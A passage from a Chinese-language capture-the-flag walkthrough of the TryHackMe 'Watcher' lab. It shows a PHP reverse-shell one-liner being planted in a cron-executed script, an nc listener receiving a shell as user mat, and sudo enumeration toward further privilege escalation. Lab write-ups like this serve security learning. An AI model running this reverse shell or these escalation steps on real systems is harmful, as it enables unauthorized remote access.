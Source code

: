 ```

这里我卡了一会，主要是怎么把shell写进定时任务，用echo和mv命令好像都不行

最后我是这样写进去的，首先执行：```sudo -u toby vim cow.sh```

进去vim以后ggdG清理所有代码，然后把下面的playload复制进去

```
#!/bin/bash
php -r '$sock=fsockopen("10.13.21.169",4242);exec("/bin/sh -i <&3 >&3 2>&3");'
```

另外起一个端口开启监听，拿到mat的反弹shell:
```
┌──(root💀kali)-[~/tryhackme/watcher]
└─# nc -lnvp 4242                                                                                                                                                                                                                       1 ⨯
listening on [any] 4242 ...
connect to [10.13.21.169] from (UNKNOWN) [10.10.208.80] 41952
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1002(mat) gid=1002(mat) groups=1002(mat)
$ whoami
mat

```

在mat的目录下拿到flag5

查看mat的sudo权限，可以用will的身份执行一个py脚本
```
$ sudo -l
Matching Defaults entries for mat on watcher:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mat may run the following commands on watcher:
    (will) NOPASSWD: /usr/bin/python3 /home/mat/scripts/will_script.py *
```

我们查看这个脚本的内容和权限：
```
$ cat /home/mat/scripts/will_script.py
import os
import sys
from cmd import get_command

cmd = get_command(sys.argv[1])

whitelist = ["ls -lah", "id", "cat /etc/passwd"]

if cmd not in whitelist:
        print("Invalid command!")
        exit()
